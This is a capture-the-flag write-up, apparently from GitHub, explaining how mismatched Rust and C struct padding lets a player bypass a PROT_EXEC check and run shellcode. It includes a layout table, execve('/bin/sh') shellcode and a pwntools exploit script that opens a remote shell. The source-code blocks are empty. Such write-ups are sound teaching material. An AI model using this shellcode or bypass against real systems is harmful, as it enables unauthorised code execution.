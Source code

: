 
## Provided Files
- chal.c
- chal
- lib.rs
- libi_love_ffi.so
- Dockerfile

```c path="chal.c"
```

```rs path="src/lib.rs"
```

## Intended
The challenge provides the source for `chal` and `libi_love_ffi.so` in `chal.c` and
`lib.rs` respectively. On the Rust side, an `mmap_args` function is defined that
sets up the arguments and passes them over to C to execute. The Rust performs some
basic checks to prevent passing the `PROT_EXEC` flag in the protections field, which
should prevent allocating shellcode.

However, although the struct definitions in Rust and C are equivalent with the
layout and types exactly the same, when you are compiled they are generated
differently. Modern compilers will typically pad struct fields so that memory
accesses to those fields are faster. The problem is that Rust and C have different
padding behavior. C will attempt to align struct fields to their memory size, but
will maintain struct order. Rust will also attempt to align struct fields to their
memory size, but will not maintain struct order.

### memory layout
| offset | C          | Rust       |
|:-------|:-----------|:-----------|
| 0x00   | addr       | addr       |
| 0x04   | addr       | addr       |
| 0x08   | length     | length     |
| 0x0C   | length     | length     |
| 0x10   | protection | offset     |
| 0x14   | flags      | offset     |
| 0x18   | fd         | protection |
| 0x1C   | [ unused ] | flags      |
| 0x20   | offset     | fd         |
| 0x24   | offset     | [ unused ] |

As we can see in the above chart, the fields in Rust dont match up one-to-one to the
struct fields on the C side. This allows us to bypass the protection check in rust
and allocate shellcode.

### Solution
```x86asm filename="shellcode.asm" open
    bits 64
    
_start:
    mov rax, `/bin/sh`
    push rax
    mov eax, 0x3b
    mov rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
```

```python filename="main.py" open
from pwn import *

p = remote(args.HOST, args.PORT)

for n in [0, 0x1000, 0, 0, 0, 7]:
    p.sendlineafter(b"> ", str(n).encode())

p.send(open("shellcode", "rb").read().ljust(4096, b"\x00"))
p.sendlineafter(b"> ", b"0")

p.interactive()
```

## Unintendeds
No unintendeds :D